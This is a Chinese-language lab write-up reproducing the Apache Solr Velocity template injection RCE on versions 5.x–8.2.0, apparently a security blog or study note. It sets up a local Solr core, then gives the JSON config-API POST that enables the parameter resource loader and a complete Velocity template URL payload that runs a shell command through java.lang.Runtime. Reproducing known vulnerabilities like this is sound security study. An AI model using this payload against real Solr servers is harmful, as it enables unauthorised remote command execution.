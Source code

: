 ```yaml
---
typora-copy-images-to: image

---
```


# Apache Solr Velocity模板注入RCE漏洞复现

## 一、前言

Solr是一个独立的企业级搜索应用服务器,它对外提供类似于web-service的API接口,用户可以通过http请求,向搜索引擎服务器提交一定格式的XML文件,生成索引,也可以通过http get操作提出查找请求,并得到XML格式的返回结果。

## 二、漏洞描述

该漏洞的产生是由于两方面的原因：

当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。

Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。
当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。（来自360CERT）

## 三、影响范围

Apache Solr 5.x - 8.2.0，存在config API版本

四、环境搭建

下载地址

https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/

解压压缩包，启动solr

![1573479758591](/image/1573479758591.png)

访问http://127.0.0.1:8983/solr/#/~cores/new_core，添加new_core

![](/image/1573479895996.png)



## 四、漏洞复现

获取core名称

访问http://127.0.0.1:8983/solr/admin/cores?wt=json&indexInfo=false

![1573480278213](/image/1573480278213.png)

Apache Solr默认集成VelocityResponseWriter插件，该插件初始化参数中的params.resource.loader.enabled默认值设置为false，但是可以通过POST请求直接修改集合设置，将其设置为true，然后就可以构造特殊的GET请求来实现远程代码执行。

![1573482066083](/image/1573482066083.png)

post以下数据，返回200响应码

        {
            "update-queryresponsewriter": {
            "startup": "lazy",
            "name": "velocity",
            "class": "solr.VelocityResponseWriter",
            "template.base.dir": "",
            "solr.resource.loader.enabled": "true",
            "params.resource.loader.enabled": "true"
            }
        }
![1573482566107](/image/1573482566107.png)

构造paloayer实现rce:

[http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%22id%22))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))%23end](http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName('java.lang.String'))+%23set($ex=$rt.getRuntime().exec("id"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end)

![1573482681109](/image/1573482681109.png)